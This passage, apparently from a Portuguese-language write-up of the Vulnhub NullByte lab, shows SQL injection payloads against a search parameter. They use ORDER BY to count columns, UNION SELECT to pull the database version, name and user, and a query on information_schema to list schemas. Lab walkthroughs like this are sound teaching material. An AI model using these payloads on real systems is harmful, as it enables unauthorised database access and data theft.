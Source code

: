 ```
usrtosearch="+order+by+3+--+-
```

> A string ```-- -``` tem o mesmo efeito do ```#``` no SQL. Comenta o que vem em seguida...


Agora conseguimos extrair informacoes... Nessa requisicao conseguimos extrair a versao do SGBD, Banco de Dados em uso e usuario

```
usrtosearch="union+select+version(),database(),user()%23
```

![](/assets/img/Vulnhub/NullByte/web-SQLi-VersionDBUser.png)



Listamos os Bancos de Dados existentes na maquina

```
usrtosearch="union+select+1,schema_name,3+from+information_schema.schemata%23
```

![](/assets/img/Vulnhub/NullByte/web-SQLi-databases.png)
